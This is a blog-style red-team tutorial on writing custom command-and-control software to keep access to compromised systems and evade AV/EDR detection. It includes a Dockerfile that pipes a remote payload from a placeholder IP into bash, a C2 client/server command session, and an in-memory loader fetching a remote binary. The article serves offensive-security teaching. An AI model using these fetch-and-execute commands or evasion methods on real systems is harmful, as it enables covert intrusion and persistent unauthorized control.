


# A Red Teamer's Guide to Building Your Own C2

C2 or Command and Control is a useful tool for maintaining access to compromised systems during a Red Team operation. C2 also allows you to run commands to collect information, advance your attack path, and ultimately reach your objectives. I started writing my own C2 at the end of 2020 because it saved me time and helped me solve a problem I was facing. It ended up being a fulfilling journey and has proved infinitely useful in my day-to-day work.

Open source or commodity (purchasable C2 frameworks) are rapidly added to signature databases and globally distributed by AV and EDR vendors. Although these tools are feature-rich and convenient, they also leave you with the burden of evading AV and EDR software. I researched this topic for a period of time to find that even when I was able to evade these detection softwares, it was short-lived. I discovered that creating custom C2 for my use case was a worthwhile alternative and a better investment of my time.

My first C2 (written prior to the widespread usage of AI) was for a Kubernetes deployment where I had write access to a container registry, allowing me to modify a [container](https://github.com/sneakerhax/C2PE/blob/main/Command_and_Control/docker_image_sh/README.md) and push (upload) it back into the registry. After being pushed into the registry, it was consumed by the Kubernetes deployment, which executed the payload. Although simple, it served its purpose well and evaded detections. Other C2s I created afterwards included PowerShell, C#, and VSCode VSIX (plugin) files written in NodeJS ( a language I didn't know, so it took around 1 week to develop).

Example of the Dockerfile used to target Kubernetes with my C2:
```
FROM debian

RUN apt update && apt install curl -y
RUN echo "curl -s http://<ip_address>:8000/payload.txt | bash" > payload.sh
RUN chmod +x ./payload.sh

ENTRYPOINT ["/bin/bash"]
CMD ["./payload.sh"]
```

In this example, the core components (which I will talk about later) are leveraged to create a basic C2. I was able to achieve my objective and bypass any detections. I also had the benefit of being able to change the payload on the fly if needed. After gaining an initial foothold, I was able to carry out my objectives and have a successful Red Team operation.

*I will be using a series of examples from my GitHub for demonstration. Many of these examples are starting points for building out exercise-specific C2 when needed. Adding additional functionality during the exercise allows me to avoid detection.*

## What is C2 (Command and Control)?

To "Command and Control" highlights the goal of C2 software. In recent years, penetration testing has primarily focused on scoped testing that has an objective of finding the most vulnerabilities (although in the past, this line was blurred, especially in the early years of Red Teams). Red Teams, on the other hand, can use a vulnerability as an initial foothold, but it's only the first step in positioning themselves to carry out their objective. Once a Red Teamer discovers a vulnerability, the next thing they want to achieve is to exploit it and control that system long-term, even if the vulnerability that allowed them to gain the initial foothold is patched afterwards. At this stage, you want to deploy your command and control software to achieve this long-term access.



## Why Write your own C2?

Developing your own C2 for Red Teaming purposes has become a rite of passage similar to how writing your first stack overflow was a rite of passage for penetration testers in the past. A recent trend I'm noticing is that most Red Teamers I interview (senior Red Teamers) have some form of C2 framework they have developed or have been on teams that develop their own C2. At first, developing your own C2 can seem overwhelming, but I can assure you it's very achievable, and the skill will serve you well.

Reasons to write your own C2:

1. Evading EDR and AV software
2. Writing custom functionality for Red Team exercises
3. Growing your knowledge and deepening your expertise in Red Teaming



## Breaking Down C2

One of the interesting aspects about C2 is that at first glance it seems complicated, but if you break it down to its core elements, it's really quite simple. I've learned this fact from building custom C2 and reading about C2 (aka. malware) used by adversaries in the wild. Regardless of how it's used, the language or adversary group, C2 is usually always made up of the same core components.

### C2 core components:
1. A client which is installed on the compromised machine
2. A channel to communicate on (http, https, ssh, and many other protocols)
* Optionally a server with which to interact with clients in an organized way, although you can simply fetch a payload from anywhere and bypass having a server
3. Required functionality typically command execution but can be as simple as file reads

With this in mind, the requirements become more straightforward. To demonstrate, I took a coding example from the Python docs and turned it into a [Python streams C2](https://github.com/sneakerhax/C2PE/blob/main/Command_and_Control/python_stream_c2/README.md). It shows how any piece of code can be turned into a C2 as long as it contains the core components.

In this example you can start the server:
```
python3 server.py
** C2 Serving on ('0.0.0.0', 8888) **
```

The server is now ready to except connections. Next you can run the client:
```
python3 client.py
```

Although I would recommend compiled binaries (keep in mind pyinstaller files are not a good option for EDR evasion as they're heavily scrutinized).
```
pyinstaller.exe --onefile --noconsole .\client.py
```

Deliver the payload to the compromised host:
```
C:\>client.exe
```
Check the server for the callback (connection) and run a command:
```
[*] Received callback from '192.168.1.6'
[+] Command to run?
192.168.1.6> powershell.exe $PSVersionTable.PSVersion
[*] Command Sent: powershell.exe $PSVersionTable.PSVersion
[+] Results from 10.0.0.68
Major  Minor  Build  Revision
-----  -----  -----  --------
5      1      19041  610
```

Once you understand these core concepts, your imagination is the only limitation! I started seeing the world differently after having this understanding. Everything became a potential C2. You see examples of this fact all around you in Red Team news, where many legitimate programs and services are turned into C2. The wave of AI technologies has also introduced us to all new ways to use C2. Get creative; it truly is an art, not a science.

### Interesting C2 examples:
* [C2 payloads with YouTube anyone?](https://x.com/sneakerhax/status/1544567886995329024?s=20)
* [Ngrok Wget Execute](https://github.com/sneakerhax/C2PE/blob/main/Command_and_Control/wget_ngrok_ex/README.md)
* [Discord callbacks](https://github.com/sneakerhax/C2PE/blob/main/Command_and_Control/discord/discord.go)


## Beyond the basics of C2

After you start to understand the core components of C2 and write them for yourself, you will likely want to add enhancements. Early enhancements that are very achievable are changing the interval for clients calling back to the server, support for interacting with multiple clients, and unique IDs to identify and interact with different clients.

The following [example](https://github.com/sneakerhax/C2PE/blob/main/Command_and_Control/examples/update_sleep.sh) demonstrates how your executed client code becomes a process which has variables you can update, such as interval:

```
interval=60

echo "interval is $interval"

while true;
do
	sleep 10
	interval=$(curl 127.0.0.1:8080/sleep.txt 2>/dev/null)
	echo "interval is $interval"
done
```

Note the change after updating the sleep.txt file to 30:
```
bash update_sleep.sh
interval is 60
interval is 30 
```


To take it a step further, you may want to load additional functionality into the process remotely to carry out your objectives. You can achieve this in Linux, for example, by using [memfdcreate](https://github.com/sneakerhax/C2PE/blob/main/Command_and_Control/remote_memfd_exec/README.md). I should note that these processes are hooked and often detected by EDR software.

```
./remote_exec_memfd http://server:8000/payload                                                                  Fetching binary from: http://server:8000/payload
Downloaded 2506798 bytes
Executing payload in memory...

[+] Executing remote payload in memory using memfd_exec
========= System Information ========
Time: Wed, 26 Jun 2024 12:34:56 UTC
Hostname: target
Username: root
OS: linux
Architecture: amd64
========================================== 
```

Further examples of basic functionality such as [host information](https://github.com/sneakerhax/C2PE/blob/main/Post_Exploitation/General/Go/hostinfo/hostinfo.go) or [listing files](https://github.com/sneakerhax/C2PE/blob/main/Post_Exploitation/General/Go/listfiles/listfiles.go) can be created and packaged into your C2 for use in post-exploitation. Once you start ideating, you will find there are unlimited ways to build a C2, and they can be built for any purpose.

## What are the best languages for Command and Control?

The inevitable questions arise...what is the best language for C2 software? I don't think there is any one answer, but my current choice is Golang and Python. Python is best used on the server side for its simplicity and readability. You can also leverage frameworks in the community such as [FastAPI](https://fastapi.tiangolo.com/) for high-performance server-side code. For the client, I like to use Golang. My reasons for using Golang for the client are simple. Golang can be written once (as long as you don't directly call OS APIs) and cross-compiled for multiple operating systems. You can be rapidly prototyping new ideas because it's simple to write after an initial learning curve,and managing packages (modules) is easy and organized, creating a single binary (although sometimes a large one).



Any language can be used for writing C2, and you should choose the language that makes sense for you. For example, if running C# in your environment is much less suspicious and blends in nicely, use C#. There are many open-source C2 software written in nearly every language that can be found online and can provide you with examples. Once you determine which language to write your C2 in, you will be able to find patterns for nearly any feature you want to design.

## Concluding our discussion on writing your own C2

I hope you're now convinced of the value of writing your own C2. It can feel intimidating at first, I know, but I assure you that you can write one if you put the time in. AI is, of course, widely available, but no experience will be more fulfilling and a quality learning experience like writing it yourself (and maybe eliciting a bit of help from AI). If you fight through the conceptual tough spots, you can up your game as a Red Teamer by mastering this important skill.

### A few considerations before starting:
* If you post your C2 online, it will likely be signed if it's widely used.
* Reviewing other C2 frameworks before starting is a good idea, but don't hesitate to start writing code.
* Avoid letting AI create large parts of your code. You will bypass important lessons learned if you don't understand the full context of your codebase.